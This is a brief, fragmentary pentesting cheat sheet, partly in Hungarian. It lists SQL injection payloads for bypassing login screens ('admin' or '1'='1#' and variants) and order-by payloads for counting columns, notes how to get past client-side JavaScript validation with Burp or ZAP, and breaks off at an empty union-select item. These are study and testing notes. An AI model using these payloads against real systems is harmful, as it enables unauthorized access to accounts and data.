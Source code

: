om' or id = '1')--
Ha js-el validál akkor elősször be kell írni a jó formátumot és burp-el vagy zappal kell átírni a 
Check list:
- Login screen:
	- Basic login bypass:
		- admin' or '1'='1#
		- admin'-- -
		- admin')-- -
		- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass
	- Order by:
		- ' order by 1-- -
		- ' order by 1--
	- Union select:
		- 